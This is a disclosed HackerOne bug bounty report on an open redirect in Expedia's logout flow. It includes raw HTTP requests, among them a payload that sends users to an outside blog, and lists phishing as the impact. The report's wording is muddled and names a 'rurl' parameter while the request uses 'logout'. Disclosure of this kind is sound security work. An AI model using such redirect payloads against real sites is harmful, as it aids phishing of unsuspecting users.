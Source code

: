 # Open Redirect in Logout & Login

## Report Details
- **Report ID**: 1788006
- **URL**: https://hackerone.com/reports/1788006
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-11-29T12:16:25.019Z
- **Disclosed**: 2023-03-02T18:20:55.437Z

## Reporter
- **Username**: qualw1n
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: expediagroup_bbp

## Vulnerability Information
## Entry
Hello there! While browsing on expedia, I logged out of the account and as soon as I logged out, it was calling me a parameter called "rurl" directly on the link, I examined it and was able to redirect successfully.

## Default Request

GET /?logout=1 HTTP/2
Host: www.expedia.com
Cookie:  { REDACTED }
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers

## Default Response

HTTP/2 200 OK

##In response, it redirects us to the homepage.

## Vulnerability Request

GET /?logout=https://qx4lw1nsec.blogspot.com HTTP/2
Host: www.expedia.com
Cookie: { REDACTED }
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers


## Note
The part that exposes to explicit redirection is "?" in the section after the address. is use.
and whatever he does he will throw redirects.

## Video
{F2053834}

## Impact

Redirect
Phishing
Social Engineering

## Attachments
No attachments

